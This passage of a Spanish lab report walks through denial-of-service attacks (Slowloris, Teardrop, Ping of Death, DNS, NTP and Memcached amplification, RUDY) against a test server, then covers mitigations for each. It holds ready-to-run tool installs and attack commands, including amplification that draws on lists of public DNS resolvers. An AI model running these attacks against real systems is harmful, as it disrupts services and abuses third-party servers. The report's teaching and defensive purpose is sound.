$ sudo apt install python3 python3-pip python3-dev python3-venv build-essential
----

En caso de usar otra distribución mira esto -> https://www.geeksforgeeks.org/how-to-install-python-on-linux/

Descargamos la herramienta, para ello tenemos dos opciones:

*Pip install*:

[source,bash]
----
$ sudo pip3 install slowloris
$ slowloris example.com
----

*Git clone*:
[source,bash]
----
$ git clone https://github.com/gkbrk/slowloris.git
$ cd slowloris
$ python3 slowloris.py example.com
----

===== Comando

En este caso, es recomendable usar varias terminales con este comando, de esta forma es más rápido el ataque.

[source,bash]
----
$ sudo slowloris (IP)
----

===== Resultados del ataque

Este ataque ha sido exitoso en nuestro entorno; no solo impide el acceso a la página, sino que la ha dejado completamente inaccesible.

*Verificación del efecto*

Accedemos con nuestro perfil a la IP del servidor y nos debe salir lo siguiente:

image::assets/imagenes-vuln/2/slowloris/conexion.png[ConexionError,align=center]

Esto nos indica que se ha realizado con exito el ataque DoS.

*Análisis con tcpdump*

Analizando los datos capturados con tcpdump, podemos observar que nuestro ataque está ocupando múltiples conexiones al puerto 80 y que estas conexiones no están siendo cerradas, sino que permanecen abiertas. Esto es lo que ocurre con Slowloris, donde el atacante envía solicitudes HTTP parciales para mantener las conexiones activas y agotar los recursos del servidor.

[source,bash]
----
$ tcpdump -i eth0 -n port 80 and tcp[13] = 2
----

Además, en las terminales donde ejecutamos Slowloris, podemos ver que la herramienta indica el envío del encabezado Keep-Alive a los sockets abiertos, lo que refuerza la persistencia de las conexiones.

image::assets/imagenes-vuln/2/slowloris/tcpdump.png[Tcpdump,align=center]

*Análisis del impacto con docker stats*

Por otro lado, al inspeccionar el consumo de recursos con docker stats, observamos que el contenedor del servidor está recibiendo 30GB en Net I/O, lo que representa un tráfico alto para un servidor web. Este consumo masivo de red sugiere que el servidor está siendo saturado con solicitudes, lo que contribuye a su caída.

image::assets/imagenes-vuln/2/slowloris/dockerstats.png[Dockerstats,align=center]

==== b. Teardrop

===== Requisitos

Deberemos tener antes python3 instalado (Debian/Ubuntu):

[source,bash]
----
$ sudo apt upgrade
$ sudo apt install python3 python3-pip python3-dev python3-venv build-essential
----

En caso de usar otra distribución mira esto -> https://www.geeksforgeeks.org/how-to-install-python-on-linux/

Descargamos la herramienta:

[source,bash]
----
$ git clone https://github.com/C4PIT4L/TearDrop.git
$ cd TearDrop
$ python3 -m venv venv
$ source venv/bin/activate
$ pip install -r requirements.txt
----

===== Comando

[source,bash]
----
$ sudo python teardrop.py (IP) 1500 --indefinite
----

* *python teardrop.py* -> Ejecuta el script teardrop.py, que genera paquetes malformados.

* *(IP)* -> IP víctima.

* *1500* -> Tamaño de los paquetes fragmentados en bytes.

* *--indefinite* -> Opción que indica que el ataque se ejecutará de forma continua hasta que lo detengas (Ctrl + C).

===== Resultados del ataque

Como pudimos ver anteriormente, este ataque se ejecutaba en servidores antiguos con sistemas Windows 95, NT 4.0 y Linux 2.0, pero los sistemas modernos simplemente descartan estos paquetes.
Además en una red local, los fragmentos IP llegan demasiado rápido y no generan problemas de reensamblado. En redes antiguas con alta latencia, el ataque funcionaba porque los fragmentos llegaban en momentos diferentes.

==== c. Ping of Death (PoD)

===== Comando

[source,bash]
----
$ ping -s 65500 -c 1000 (IP)
----

* *-s 65500* -> Tamaño del paquete (máximo 65535 bytes, pero algunos sistemas tienen límites menores).

* *-c 1000* -> Enviar 1000 paquetes.

* *(IP)* -> La IP del objetivo.

===== Resultados del ataque

Al igual que el anterior, este ataque solo afecta a sistemas antiguos (Windows 95/98/NT, Linux 2.0, algunos routers antiguos).

Actualmente el protocolo IPv4 permite que los paquetes se dividan en fragmentos si son demasiado grandes. Si un paquete se fragmenta y el receptor no puede reconstruirlo correctamente, simplemente lo descarta

=== 3. Ataques de Amplificación y Reflexión

==== a. DNS Amplification

===== Requisitos

Vamos a usar un antiguo script de C, por lo que haremos lo siguiente:

[source,bash]
----
$ mkdir dnsdrdos
$ cd dnsdrdos
$ wget https://github.com/rodarima/lsi/blob/master/p2/dnsdrdos.c
$ gcc dnsdrdos.c -o dnsdrdos.o -Wall -ansi
----

Una vez compilado el script, necesitamos crear una lista de servidores dns, que serán los que envíen paquetes al servidor víctima:

Podemos obtener los servidores dns de la siguiente página -> https://public-dns.info/

===== Comando

[source,bash]
----
$ sudo ./dnsdrdos.o -f (dnslist.txt) -s (IP víctima) -l (tiempo del ataque)
----
* *-f* -> El archivo txt con la lista de servidores dns, solo una IP por linea
* *-s* -> La IP a la que vamos a atacar
* *-l* -> El tiempo de duración del ataque

===== Resultados del ataque

Este ataque es bastante eficaz, como se está utilizando una IP local (nuestra red interna), los servidores DNS amplifican las peticiones hacia esta dirección. El tráfico amplificado llena la red local con solicitudes, causando congestión. Sin embargo, el servidor DNS local sigue funcionando, ya que no se ve afectado por el ataque en términos de disponibilidad. El problema es que, dado que el tráfico afecta a nuestra red interna, otras aplicaciones y servicios de red que dependen de la conexión (como navegación web o actualizaciones de paquetes) se ven ralentizados o incluso interrumpidos.

*Gráficos en Kali Linux*

En Kali Linux, en la parte superior derecha, hay unos gráficos que muestran el uso de la CPU. Podemos observar cómo, durante el ataque, el gráfico comienza a reflejar un incremento en la carga del procesador. Esto indica que el servidor está procesando un número elevado de solicitudes, lo que confirma que el ataque está en curso.

image::assets/imagenes-vuln/3/dns/kali.png[KaliGraphs,width=340,align=center]

*Análisis con tcpdump*

Utilizando tcpdump, se puede observar cómo las peticiones de las IPs de los servidores DNS están llegando a la red. Cada una de estas solicitudes genera una respuesta amplificada, lo que contribuye a la sobrecarga del ancho de banda y la congestión en la red local.

image::assets/imagenes-vuln/3/dns/tcpdump.png[Tcpdump,align=center]

*Análisis con docker stats*

Al consultar docker stats, se observa que no hay una carga significativa en los contenedores. Esto ocurre ya que el ataque está afectando principalmente el ancho de banda de la red local, y no la carga de los servicios dentro de los contenedores.

image::assets/imagenes-vuln/3/dns/dockerstats.png[Dockerstats,align=center]

Un buen ejemplo de cómo el ataque afecta la funcionalidad de la red es al intentar realizar una actualización de paquetes con apt. Durante el ataque, se observa que la actualización no puede completarse, ya que los paquetes necesarios para la actualización no llegan debido a la congestión en la red.

image::assets/imagenes-vuln/3/dns/updateError.png[UpdateError,align=center]

==== b. NTP Amplification

===== Requisitos

Deberemos tener antes python3 instalado (Debian/Ubuntu):

[source,bash]
----
$ sudo apt upgrade
$ sudo apt install python3 python3-pip python3-dev python3-venv build-essential
----

En caso de usar otra distribución mira esto -> https://www.geeksforgeeks.org/how-to-install-python-on-linux/

Para este ataque vamos a usar la herramienta Impulse, vamos a descargarla e instalar los requisitos.

[source,bash]
----
$ git clone https://github.com/LimerBoy/Impulse.git
$ cd Impulse
$ python3 -m venv venv
$ source venv/bin/activate
$ pip3 install -r requirements.txt
$ python3 impulse.py --help
----

Ya estará lista para usar esta versátil herramienta.

También hay servidores NTP cómo en el caso de DNS -> https://tf.nist.gov/tf-cgi/servers.cgi

===== Comando

[source,bash]
----
$ sudo python3 impulse.py --method NTP --time 200 --threads 15 --target (IP):123
----

* *--method NTP* -> Especifica el método de ataque a utilizar. En este caso, se trata de un ataque de amplificación NTP (Network Time Protocol). Este tipo de ataque funciona enviando solicitudes maliciosas a servidores NTP abiertos para generar un volumen de tráfico mayor dirigido al objetivo.

* *--time 200* -> Define la duración del ataque en segundos. En este caso, el ataque se ejecutará durante 200 segundos.

* *--threads 15* -> Especifica el número de hilos que se utilizarán para ejecutar el ataque en paralelo. Cuantos más hilos, más solicitudes simultáneas se enviarán, aumentando el volumen de tráfico generado.

* *--target (IP):123* -> La IP víctima y el puerto al que vamos a atacar.

===== Resultados del ataque

Aunque este ataque suele ser efectivo, no alcanza la misma potencia que el anterior. Esto se debe a que la amplificación del tráfico NTP es menor, lo que reduce la probabilidad de causar una saturación inmediata de la red. Para que un ataque de este tipo tenga un impacto significativo, se necesita un volumen de tráfico considerable; si los paquetes generados no llenan el ancho de banda disponible, el efecto será mínimo.

*Gráficos en Kali Linux*

Podemos observar cómo los paquetes llegan a nuestro contenedor, de manera similar al ataque anterior.

image::assets/imagenes-vuln/3/ntp/kali.png[KaliGraphs,align=center]

*Análisis con tcpdump*

Además, con tcpdump podemos ver que se han capturado 1500 paquetes de un total de 11413, utilizando el siguiente comando en una terminal fuera de los contenedores:

[source,bash]
----
tcpdump -i eth0 port 123 -vv
----

image::assets/imagenes-vuln/3/ntp/tcpdump.png[Tcpdump,align=center]

A pesar de esto, seguimos teniendo acceso a todos los servicios sin interrupciones, lo que indica que el ataque no es lo suficientemente fuerte en este caso. La red local tiene suficiente capacidad para absorber el tráfico y el ataque no está generando suficiente tráfico porque el número de threads y el tiempo son insuficientes.

==== c. Memcached

===== Reconocimiento

En este caso, este ataque sirve únicamente para servidores con servicio memcached, este servicio suele estar presente en el puerto 11211.

[source,bash]
----
$ nmap -p 11211 --script memcached-info (IP)
----

===== Herramientas

Deberemos tener antes python3 instalado (Debian/Ubuntu):

[source,bash]
----
$ sudo apt upgrade
$ sudo apt install python3 python3-pip python3-dev python3-venv build-essential
----

En caso de usar otra distribución mira esto -> https://www.geeksforgeeks.org/how-to-install-python-on-linux/

Hay varias herramientas que puedan realizar este ataque:

<<<

* *Impulse* -> Podemos volver a usar la misma herramienta del anterior ataque.

[source,bash]
----
$ git clone https://github.com/LimerBoy/Impulse.git
$ cd Impulse
$ python3 -m venv venv
$ source venv/bin/activate
$ pip3 install -r requirements.txt
$ python3 impulse.py --help
----

* *https://github.com/649/Memcrashed-DDoS-Exploit[Memcrashed]* -> Esta herramienta está centrada principalmente en este tipo de ataques, pero necesita usar Shodan API, que se puede obtener gratis si se tiene una cuenta .edu de mail.

[source,bash]
----
$ git clone https://github.com/649/Memcrashed-DDoS-Exploit.git
$ cd Memcrashed-DDoS-Exploit
$ echo "SHODAN_KEY" > api.txt
$ docker build -t memcrashed .
$ docker run -it memcrashed
----

Podemos ver un ejemplo de cómo funciona está herramienta: 

===== Comando

En caso de que queramos realizarlo con *Impulse*, realizaremos el siguiente comando.

[source,bash]
----
$ sudo python3 impulse.py --method MEMCACHED --time 200 --threads 15 --target (IP):11211
----

* *--method MEMCACHED* -> Especifica el tipo de ataque, en este caso, amplificación Memcached.

* *--time 200* -> Define la duración del ataque en segundos. En este caso, el ataque se ejecutará durante 200 segundos.

* *--threads 15* -> Especifica el número de hilos que se utilizarán para ejecutar el ataque en paralelo. Cuantos más hilos, más solicitudes simultáneas se enviarán, aumentando el volumen de tráfico generado.

* *--target (IP):11211* -> Dirección IP del objetivo y puerto al que se enviará el tráfico.

===== Resultados del ataque

Por desgracia, no dispongo de un servidor memcached, pero podemos ver una prueba hacia un servidor real: https://www.youtube.com/watch?v=7oozYx9AfPM[video]

<<<

=== 4. Ataques Lógicos o de Estado

==== a. HTTP Flood

===== Herramientas

Para este tipo de ataques hay varias herramientas, de hecho ya vimos una que es Slowloris, pero me gustaría abordar otras que son parecidas o mejores:

* *https://sourceforge.net/projects/loic/[Low Orbit Ion Cannon (LOIC)]* -> Originalmente desarrollada para pruebas de estrés en redes, LOIC permite enviar un gran volumen de solicitudes TCP, UDP o HTTP a un objetivo específico. Su uso ha sido asociado a ataques DDoS coordinados. 

* *https://sourceforge.net/projects/highorbitioncannon/[High Orbit Ion Cannon (HOIC)]* -> Considerada la sucesora de LOIC, HOIC es capaz de generar un volumen aún mayor de tráfico hacia el objetivo. Utiliza scripts llamados "boosters" para aumentar la efectividad del ataque y puede apuntar a múltiples URLs simultáneamente. 

* *https://github.com/R3DHULK/HULK[HULK (HTTP Unbearable Load King)]* -> Esta herramienta genera tráfico HTTP único y ofusca las solicitudes para evadir sistemas de detección de intrusos. Su objetivo es desbordar el servidor con solicitudes únicas, dificultando su mitigación. 

* *https://sourceforge.net/projects/torshammer/[Tor's Hammer]* -> Diseñada para realizar ataques de denegación de servicio a través de la red Tor, esta herramienta envía solicitudes POST lentas para mantener abiertas las conexiones y agotar los recursos del servidor. 

* *https://github.com/epsylon/ufonet[UFONet]* -> Es una herramienta DDoS que utiliza bots para crear ataques masivos. Permite realizar ataques de inundación HTTP y otros métodos aprovechando vulnerabilidades web.

Algunas de estas herramientas pueden no ser muy eficaces actualmente como puede ser LOIC, HOIC, HULK. Pero por otra parte tenemos herramientas que pueden ser útiles en la actualidad como Slowloris, Tor's Hammer, UFONet.

De todas formas, el efecto que pueden tener depende de la herramienta que escojamos. Por ello he encontrado una herramienta que puede realizar 56 métodos de ataques DDoS:

https://github.com/MatrixTM/MHDDoS[MHDDoS] -> Es una herramienta escrita en Python 3 que permite realizar ataques de denegación de servicio distribuido (DDoS) mediante una amplia variedad de métodos tanto para la capa 7 (HTTP/HTTPS) como para la capa 4 (red).

Podemos ver ejemplos de esta herramienta en acción en el siguiente enlace -> https://blog.elhacker.net/2025/01/ejemplos-ataques-ddos-capa-7-con-mhddos.html[MHDDoS ejemplos]

==== b. RUDY (R U Dead Yet?)

Este ataque es muy efectivo contra nuestro formulario, ya que se encarga de hacer ataques tanto POST que es nuestro caso, como GET.

===== Requisitos

Es necesario instalar npm para esta herramienta:

<<<

[source,bash]
----
$ apt update
$ apt install npm
$ git clone https://github.com/sahilchaddha/rudyjs.git
$ cd rudyjs
$ npm install -g rudyjs
----

===== Comando

[source,bash]
----
$ sudo rudy -t "http://(IP)/formulario.php" -d 5 -n 500 -m "POST"
----

* *-t "http://(IP)/formulario.php"* -> El objetivo del ataque, en este caso, un formulario en nuestro servidor.

* *-d 5* -> Retraso de 5 segundos entre el envío de pequeños fragmentos de datos.

* *-n 500* -> Intenta abrir 500 conexiones simultáneas al servidor, manteniéndolas abiertas

* *-m "POST"* -> Indica que el ataque usará el método POST.

===== Resultados del ataque

En este ataque, podemos observar un efecto inmediato en nuestro formulario, ya que el servidor devuelve un error 500 (Internal Server Error). Esto ocurre porque se han agotado los recursos del servidor debido al envío de solicitudes HTTP POST extremadamente lentas, manteniendo las conexiones abiertas sin cerrarlas. Como resultado, el servidor queda saturado al intentar procesar todas las conexiones simultáneamente, lo que puede provocar la interrupción del servicio.

image::assets/imagenes-vuln/4/RUDY/error500.png[Error500,width=320,align=center]

*Análisis con tcpdump*

Por otro lado, mediante tcpdump, podemos capturar y analizar el tráfico generado durante el ataque. Esto nos permite verificar que todas las solicitudes están llegando al servidor. Podemos ver en tiempo real cómo las solicitudes POST se transmiten de manera fragmentada, lo que confirma el efecto del ataque.

[source,bash]
----
sudo tcpdump -i eth0 port 80 -A | grep -i "POST"
----

image::assets/imagenes-vuln/4/RUDY/tcpdump.png[Tcpdump,width=550,align=center]

== ¿Cómo prevenir?

En esta sección vamos a ver las formas de mitigar cada uno de los anteriores ataques mencionados

=== 1. Ataques de Consumo de Recursos
==== a. Ping flood (ICMP)

* *Desactivar ICMP* -> La manera más sencilla es desactivando la funcionalidad ICMP del dispositivo objetivo. El administrador puede deshabilitar en el dispositivo la capacidad de enviar y recibir cualquier solicitud que utilice el ICMP. Esto produce que el dispositivo en cuestión no responda a las solicitudes de ping, de traceroute y otras actividades de red.

[source,bash]
----
$ sysctl -w net.ipv4.icmp_echo_ignore_all=1
----

* *Reglas de firewall* -> Configurar reglas en el firewall para limitar el tráfico ICMP (iptables, pf, firewalld).

* *Rate limiting* -> Implementar _rate limiting_ para ICMP en dispositivos de red.

* *Fail2Ban* -> Utilizar herramientas como https://github.com/fail2ban/fail2ban[Fail2Ban] para bloquear direcciones con solicitudes excesivas.

==== b. SYN Flood

* *Aumentar la cola de registros* -> Para poder aumentar con éxito el backlog máximo, el sistema tiene que reservar recursos de memoria adicionales para atender las nuevas solicitudes. Si el sistema no cuenta con memoria suficiente para gestionar el aumento del backlog, el rendimiento del sistema se verá afectado, pero mejor eso a que se produzca una negación de servicio.

* *Reciclar la conexión TCP medio abierta más antigua* -> Consiste en sobrescribir la conexión medio abierta más antigua una vez se haya completado el backlog, requiere que se puedan establecer en su totalidad las conexiones legítimas en menos tiempo del que necesita el backlog para llenarse de paquetes SYN maliciosos. Esto no resulta muy eficaz si el backlog es pequeño o si el ataque aumenta.

* *Cookies de SYN* -> El servidor debe crear una cookie, de esta manera se evita el riesgo de que se caigan las conexiones cuando se haya completado el backlog, por lo que el servidor responde a cada solicitud de conexión con un paquete SYN-ACK, pero luego descarta la solicitud SYN del backlog, elimina la solicitud de la memoria y dejan el puerto abierto y preparado para una nueva conexión. Si la solicitud es legítima, el cliente devolverá un paquete ACK final al servidor y este reconstruirá (con algunas limitaciones) la entrada de la cola del backlog de SYN. Durante este proceso se perderá información acerca de la conexión TCP.

[source,bash]
----
$ sysctl -w net.ipv4.tcp_syncookies=1
----

* *Tiempo de espera* -> Reducir el tiempo de espera de las conexiones medio abiertas (*tcp_max_syn_backlog* y *tcp_synack_retries* en *sysctl*).

* *Rate limiting* -> Implementar rate limiting en el firewall para el tráfico SYN.

* *Balanceadores de carga* -> Usar balanceadores de carga o sistemas de mitigación DDoS como Cloudflare o AWS Shield. Cloudflare mitiga este tipo de ataques parcialmente al ubicarse entre el servidor de destino y la inundación SYN.

==== c. UDP Flood

La mayoría de los sistemas operativos limitan la tasa de respuesta de los paquetes ICMP, principalmente para interrumpir los ataques DDoS que requieren una respuesta ICMP. El problema es que los paquetes legítimos también pueden ser filtrados en el proceso. Si la inundación UDP tiene un volumen lo suficientemente alto como para saturar la tabla de estado del firewall del servidor objetivo, no se podría mitigar ya que el cuello de botella se producirá en la parte previa del dispositivo objetivo.

* *Filtrar firewall* -> Esto permite descartar paquetes sospechosos. Sin embargo, el firewall también puede colapsarse bajo el volumen de datos como hemos visto antes.

* *Configurar servicios UDP (DNS, NTP)* -> Las consultas DNS o NTP suelen ejecutarse mediante UDP. Con esta medida, cualquier otra fuente que genere una cantidad masiva de tráfico UDP se considerará sospechosa y los paquetes en cuestión se descartarán.

* *IDS/IPS* -> Implementar rate limiting y reglas de detección de tráfico anómalo en el IDS/IPS.

=== 2. Ataques de Explotación de Vulnerabilidades
==== a. Slowloris

* *Aumentar la disponibilidad del servidor* -> Aumentar el número máximo de clientes que el servidor permitirá en cualquier momento aumentará el número de conexiones que el atacante debe hacer antes de poder sobrecargar el servidor. Aunque, un atacante puede escalar el número de ataques para superar la capacidad del servidor, independientemente de los aumentos.

* *Limitar la velocidad de las solicitudes entrantes* -> Restringir el acceso en función de ciertos factores de uso ayudará a mitigar un ataque Slowloris. Técnicas como la limitación del número máximo de conexiones que puede realizar una única dirección IP, la restricción de las velocidades de transferencia lentas, y la limitación del tiempo máximo que un cliente puede permanecer conectado son enfoques para limitar la eficacia de los ataques bajos y lentos. Por ejemplo, configurando límites en Apache/Nginx (Timeout, KeepAliveTimeout) o implementar mod_evasive en Apache o limit_req en Nginx.

* *Protección basada en la nube* -> Usar un servicio que pueda funcionar como proxy inverso, protegiendo el servidor de origen o un balanceador de carga que detecte y limite conexiones lentas.

* *WAF* -> Usar un https://www.cloudflare.com/es-es/learning/ddos/glossary/web-application-firewall-waf[Web Application Firewall]

==== b. Teardrop Attack

Ciertamente la técnica de ataque *Teardrop* está anticuada, por lo que las siguientes recomendaciones también se pueden aplicar a las demás.

* *Actualizar* -> Mantener el sistema operativo y el firmware actualizados (los sistemas modernos ya no son vulnerables).

* *Bloquea los puertos* -> Desactivar los puertos 139 y 445, esto bloqueará mensajes del servidor potencialmente peligrosos en los sistemas que no pudieron recibir las actualizaciones de seguridad de sus proveedores.

* *Configurar firewall* -> Habilitar protecciones en el firewall para fragmentación anómala de paquetes

* *IDS/IPS* -> Utilizar un IDS/IPS para detectar y bloquear ataques basados en fragmentación.

==== c. Ping of Death (PoD)

El PoD surgió inicialmente a mediados de la década de 1990. Se han protegido muchos dispositivos contra los ataques PoD desde entonces. Muchos sitios también siguen deteniendo los mensajes de ping ICMP para prevenir estos ataques y controlar las próximas variaciones de este ataque DoS.

* *Actualizar el software regularmente* -> Los desarrolladores lanzan parches de seguridad para corregir vulnerabilidades en sus productos. Mantén tus sistemas actualizados para evitar que los atacantes exploten fallos conocidos en el manejo de paquetes.

* *Filtrar el tráfico ICMP* -> Configura el firewall para bloquear los pings fragmentados o maliciosos sin afectar las funciones legítimas de ICMP. De esta manera, evitas interrupciones del sistema sin comprometer herramientas de monitoreo y diagnóstico.

* *Evaluar paquetes tras el reensamblado* -> Es crucial verificar que los paquetes reconstruidos no excedan el tamaño permitido. Un límite de tamaño adecuado puede prevenir bloqueos causados por paquetes malformados.

* *Implementar un buffer de seguridad* -> Aumentar el tamaño del buffer de red ayuda a gestionar paquetes más grandes sin que afecten la estabilidad del sistema. Esto mitiga posibles ataques basados en sobrecarga de datos.

* *Herramientas* -> Utilizar herramientas de monitoreo para detectar tráfico ICMP anómalo (Tcpdump, Iptables, Suricata, etc).

=== 3. Ataques de Amplificación y Reflexión
==== a. DNS Amplification

Los servidores individuales y empresariales tienen pocas opciones para mitigar ataques volumétricos, ya que el mayor impacto ocurre en la infraestructura del ISP. Si el tráfico generado es demasiado alto, el proveedor de servicios puede bloquear la IP de la víctima para proteger su red, interrumpiendo el servicio. Servicios externos como Cloudflare ofrecen soluciones de mitigación contra DDoS para reducir este riesgo.

* *Restricción de solucionadores DNS abiertos* -> Los ataques de amplificación DNS dependen de servidores mal configurados que responden a cualquier solicitud. Para evitar que sean usados en ataques, estos solucionadores deben configurarse para responder solo a dispositivos dentro de un dominio de confianza, limitando así el abuso en ataques de reflexión y amplificación.

* *Filtrado de IP de origen y bloqueo de paquetes falsificados* -> Los ataques basados en UDP utilizan direcciones IP falsificadas para redirigir el tráfico hacia la víctima. Los proveedores de servicios deben rechazar tráfico con direcciones de origen manipuladas para evitar su uso en ataques. Implementar filtrado de ingreso ayuda a detener paquetes falsificados antes de que salgan de la red y sean utilizados en ataques de amplificación.

==== b. NTP Amplification

Los servidores particulares y empresariales tienen pocas opciones para mitigar ataques volumétricos, ya que el mayor impacto ocurre en la infraestructura del proveedor de servicios de Internet (ISP). Si el tráfico generado es demasiado alto, el ISP puede bloquear la IP de la víctima para proteger su red, lo que interrumpe el servicio del afectado. Para reducir este riesgo, se recomienda el uso de servicios de protección remota como Cloudflare, que ofrece mitigación contra DDoS.

* *Desactivación del comando monlist en servidores NTP* -> Muchas versiones antiguas de servidores NTP son vulnerables a ataques de amplificación mediante el comando monlist. Para evitar que los atacantes utilicen estos servidores en ataques, se recomienda actualizar NTP a la versión 4.2.7 o superior, donde esta función está deshabilitada por defecto. Si la actualización no es posible, los administradores pueden aplicar soluciones siguiendo las recomendaciones del US-CERT.

* *Filtrado de IP de origen y bloqueo de paquetes falsificados* -> Los ataques de amplificación UDP dependen del uso de direcciones IP falsificadas para redirigir tráfico masivo hacia la víctima. Los proveedores de servicios deben implementar filtrado de ingreso para rechazar paquetes con direcciones de origen manipuladas y evitar que estos salgan de la red. Cloudflare recomienda esta práctica y notifica a los proveedores vulnerables que incumplen el estándar BCP38, ayudando a frenar estos ataques antes de que afecten a la red objetivo.

==== c. Memcached Amplification

* *Desactivar UDP en servidores Memcached* -> Memcached tiene habilitado el soporte de UDP por defecto, lo que puede ser explotado en ataques de amplificación. Si no es necesario, se recomienda deshabilitar UDP para reducir el riesgo de que el servidor sea utilizado en un ataque DDoS.

* *Implementar firewalls en servidores Memcached* -> Para aquellos que necesitan utilizar UDP en Memcached, se recomienda configurar firewalls que restrinjan el acceso desde Internet. Esto permite su uso dentro de una red segura sin exponer el servicio a posibles ataques.

* *Filtrado de paquetes para evitar la suplantación de IP* -> Los ataques DDoS aprovechan la falsificación de direcciones IP para redirigir tráfico a la víctima. Para evitar esto, los proveedores de servicios de Internet (ISP) deben implementar filtrado de paquetes, asegurando que los paquetes salientes no puedan falsificar su origen. Si todos los proveedores aplicaran este filtrado, los ataques basados en la suplantación de IP desaparecerían.

* *Reducir el tamaño de las respuestas UDP* -> Una estrategia para eliminar la amplificación en ataques UDP es diseñar software que limite la cantidad de datos enviados en respuesta a una solicitud. Si la respuesta es igual o menor al tamaño de la solicitud inicial, la amplificación deja de ser viable, reduciendo el impacto de estos ataques.

=== 4. Ataques Lógicos o de Estado
==== a. HTTP Flood

* *Desafíos Computacionales* -> Para evitar que bots maliciosos realicen solicitudes masivas, se pueden implementar pruebas como CAPTCHA o retos basados en JavaScript. Estas técnicas obligan al cliente a realizar una tarea computacional antes de que la solicitud sea procesada, lo que dificulta la automatización de los ataques.

* *Uso de un Firewall de Aplicaciones Web (WAF)* -> Un WAF permite filtrar y bloquear tráfico malicioso en la capa de aplicación. Puede detectar User-Agents sospechosos, limitar la frecuencia de solicitudes desde una misma IP y aplicar reglas personalizadas para mitigar ataques específicos de HTTP Flood.

* *Bases de Datos de Reputación de IP* -> Al mantener listas de direcciones IP con historial de comportamiento malicioso, es posible bloquear tráfico proveniente de redes conocidas por realizar ataques DDoS. También se pueden aplicar restricciones geográficas si se detecta que un ataque proviene de una región en particular.

* *Análisis en Tiempo Real* -> El monitoreo constante del tráfico permite detectar patrones de ataque y ajustar las reglas de mitigación en tiempo real. Empresas como Cloudflare utilizan esta estrategia para actualizar sus medidas de protección dinámicamente y bloquear solicitudes maliciosas sin afectar a los usuarios legítimos.

==== b. RUDY (R U Dead Yet?)

Los ataques R.U.D.Y. (R-U-Dead-Yet?) son ataques bajos y lentos que intentan agotar los recursos del servidor enviando solicitudes con un ritmo extremadamente lento. Como son más sutiles que otros ataques DDoS, su detección puede ser complicada.

* *Reducir el tiempo de espera de conexión* -> Establecer intervalos de tiempo más estrictos en el servidor web ayuda a evitar que las conexiones maliciosas permanezcan activas indefinidamente. No obstante, esta solución podría afectar a usuarios legítimos con conexiones lentas.

* *Uso de un proxy inverso con protección DDoS* -> Soluciones como Cloudflare o similares pueden filtrar el tráfico sospechoso sin afectar a los usuarios reales. Un proxy inverso analiza las conexiones activas y bloquea aquellas que presentan patrones típicos de ataques bajos y lentos.

* *Configurar límites en el tamaño y duración de las solicitudes* -> Es posible establecer reglas que restrinjan la cantidad de tiempo que una solicitud puede permanecer abierta sin enviar datos, evitando que los atacantes mantengan sesiones activas por largos períodos.

<<<

* *Implementar mecanismos de detección de tráfico anómalo* -> El monitoreo en tiempo real permite detectar patrones de comportamiento sospechosos, como múltiples conexiones que envían datos extremadamente despacio. Sistemas de prevención de intrusos (IPS) pueden ayudar a bloquear estos intentos.

----
"Los usuarios son el eslabón más débil de cualquier sistema de seguridad."

- Kevin Mitnick
----